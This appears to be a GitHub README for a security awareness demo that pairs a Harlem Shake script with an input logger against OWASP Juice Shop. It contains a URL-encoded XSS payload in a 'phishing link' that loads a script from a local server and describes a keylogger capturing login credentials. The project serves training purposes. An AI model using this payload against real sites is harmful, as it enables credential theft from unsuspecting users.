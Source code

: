 # shake-logger
This projects provides a logger and a connected harlem shake js.

Please enable [autoplay](https://www.ghacks.net/2018/02/06/how-to-control-audio-and-video-autoplay-in-google-chrome/) in your browser.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dapple%22%3BsearchQuery.value%20%3D%20%22apple%22%3B%60%29%27%3C%2Fimg%3Eapple)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!

> You can also find a recording of this attack in action on YouTube:
> [:tv:](https://www.youtube.com/watch?v=L7ZEMWRm7LA)
